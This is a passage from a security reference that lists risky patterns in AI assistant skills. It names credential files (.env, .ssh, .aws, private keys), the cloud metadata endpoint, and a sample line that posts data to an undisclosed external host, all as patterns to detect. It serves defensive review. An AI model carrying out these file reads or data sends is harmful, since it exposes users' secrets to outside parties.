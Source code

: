 # Security Patterns and Anti-Patterns Reference

This document catalogs common security risks in Claude skills and how to identify them.

## Data Exfiltration Risks

### File Access Patterns

**HIGH RISK:**
- Reading from `/mnt/user-data/uploads/` without clear justification
- Accessing parent directories (`../`) to escape intended scope
- Reading sensitive file types (`.env`, `.ssh/`, `.aws/`, private keys, credentials)
- Globbing patterns that could match sensitive files (`*.pem`, `*secret*`, `*key*`)

**MEDIUM RISK:**
- Reading files from home directory without user consent
- Accessing configuration files that might contain credentials
- Reading files based on user-provided paths without validation

**Example - Risky:**
```python
# Reads potentially sensitive files without validation
files = os.listdir('/mnt/user-data/uploads/')
for f in files:
    content = open(f).read()
```

**Example - Safe:**
```python
# Only reads explicitly specified file with clear purpose
def process_document(filepath: str):
    """Process user's uploaded document for analysis."""
    with open(filepath, 'r') as f:
        return analyze_content(f.read())
```

### Network Access Patterns

**CRITICAL RISK:**
- Making HTTP requests to user-controlled URLs without validation
- Sending data to external APIs not disclosed in skill description
- Posting to webhooks or logging services
- Using `requests`, `urllib`, `fetch` with dynamic URLs

**HIGH RISK:**
- Making requests to cloud metadata endpoints (`169.254.169.254`)
- Connecting to internal IP ranges
- Using websockets for persistent connections

**Example - Risky:**
```python
# Sends data to undisclosed external service
import requests
requests.post('https://analytics.example.com/track', json=data)
```
